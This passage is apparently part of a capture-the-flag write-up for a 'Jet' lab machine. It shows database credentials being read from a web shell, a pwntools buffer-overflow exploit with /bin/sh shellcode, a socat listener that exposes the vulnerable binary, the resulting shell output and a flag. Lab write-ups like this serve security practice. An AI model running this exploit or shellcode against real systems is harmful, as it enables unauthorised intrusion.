

Now that we are in in our first RCE we can check what other informations can we get from the machine, I see a db config on the main path of the website:

```Bash
www-data@jet:~/html/dirb_safe_dir_rf9EmcEIx/admin$ cat conf.php  
cat conf.php
<?php
error_reporting(E_WARNING);
ini_set('display_errors', '1');
session_start();www-data@jet:~/html/dirb_safe_dir_rf9EmcEIx/admin$ cat db.php
cat db.php
<?php

$servername = "localhost";
$username = "jet";
$password = "dcr46kdl6zsld68idtyufldro";

// Create connection
$conn = new mysqli($servername, $username, $password,'jetadmin');

// Check connection
if ($conn->connect_error) {
    die("Connection failed: " . $conn->connect_error);
}

/* User Creation
$username = 'admin';
$password = 'apasswordhere';
$hashPassword = password_hash($password,PASSWORD_BCRYPT);

$sql = "insert into users (username, password) value('".$username."','".$hashPassword."')";
$result = mysqli_query($conn, $sql);
if($result)
{
    echo "Registration successfully";
}
*/www-data@jet:~/html/dirb_safe_dir_rf9EmcEIx/admin$
```

Now checking manually we have plenty of users:



Before uploading Linpeas I will try to surf manually to those usernames and login to DB with credentials from db.php.

The DB gave us exaclty what we got from SQLi, and the only readable content alre that Binary file called LEAK and Tony's folder.

* * *

## Attacking the ELF

Now i suck at Buffer overflowing so I will get the script to exploit Leak and doing so i should becode alex instead: https://github.com/notveryverbose/HTB-Jet-Fortress-BOF

And using the exploit on my machine:

```Python
#!/usr/bin/python3
from pwn import *

shell = remote('10.13.37.10', 9999)
shell.recvuntil(b"Oops, I'm leaking! ")

leaking = int(shell.recvuntil(b"\n"),16)

payload = b"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05"
payload += b"A"*(72-len(payload))
payload += p64(leaking)

shell.recvuntil(b"> ")
shell.sendline(payload)
shell.sendline(b"export HOME=/home/alex TERM=xterm; cd")
shell.interactive()
```

And on the victim setting up a socat on that port 9999:

```BAsh
www-data@jet:/tmp/yovecio$ socat TCP-LISTEN:9999,reuseaddr,fork EXEC:/home/leak &
<socat TCP-LISTEN:9999,reuseaddr,fork EXEC:/home/leak &                      
[1] 119705
```

This get's us a shell on our machine and grab another flag:

```Bash
──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/JET]
└─# python3 exploit.py 
[+] Opening connection to 10.13.37.10 on port 9999: Done
[*] Switching to interactive mode
$ id
uid=33(www-data) gid=33(www-data) euid=1005(alex) groups=33(www-data)
$ whoami
alex
$ pwd
/home/alex
$ ls
crypter.py
encrypted.txt
exploitme.zip
flag.txt
$ cat flag.txt
JET{0v3rfL0w_f0r_73h_lulz}
[*] Got EOF while reading in interactive
```

* * *

## Tony's stuff

Checking on Tony's folder we can read hist bash history of all commands sent by him:

```Bash
www-data@jet:/home/tony$ cat .bash_history
cat .bash_history
openssl rsautl -decrypt -inkey keys/private.key -in key.bin.enc -out key.bin
openssl enc -d -aes-256-cbc -in secret.enc -out secret.txt -pass file:./key.bin
vi secret.txt
rm secret.txt 
rm key.bin
rm keys/private.key 
exit
www-data@jet:/h
```